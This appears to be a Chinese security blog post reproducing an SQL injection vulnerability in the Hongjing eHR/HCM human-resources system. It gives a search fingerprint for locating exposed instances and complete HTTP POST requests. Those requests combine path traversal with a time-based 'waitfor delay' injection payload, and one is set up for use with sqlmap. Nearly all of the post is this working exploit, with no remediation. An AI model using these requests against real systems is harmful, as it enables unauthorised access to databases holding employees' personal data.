#  宏景eHRview存在SQL注入漏洞   
原创 骇客安全  骇客安全   2025-02-10 07:48  
  
- 宏景人力资源信息管理系统  
# 三、资产测绘  
- hunterapp.name="宏景 HCM"  
- 特征  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MG7ibSbMGgCWwaPJHEIUoDNdjcvkz6QxhaEEZLs7EHgrr4V6I1PklPtUHb3XXhutn9oA5r80rL3jQ/640?wx_fmt=png&from=appmsg "null")  
# 四、漏洞复现  
```
POST /templates/attestation/../../general/info/view HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=BD60CDF0E7053E9C5BB173252D82A0FE
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

kind=1&a0100=1';waitfor+delay+'0:0:3'+--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MG7ibSbMGgCWwaPJHEIUoDN61BvMqnGqUXHD8j1x2XB80WicErI21XvldwV5h8Zblwt6twmx81QzqA/640?wx_fmt=png&from=appmsg "null")  
  
sqlmap  
```
POST /templates/attestation/../../general/info/view HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=BD60CDF0E7053E9C5BB173252D82A0FE
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

kind=1&a0100=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991MG7ibSbMGgCWwaPJHEIUoDNQ7RPy5YR23koPpeC9WBkxBicpYNDiaolKeFZf5qh3ASyWnmV3SibjlSkQ/640?wx_fmt=png&from=appmsg "null")  
  
  
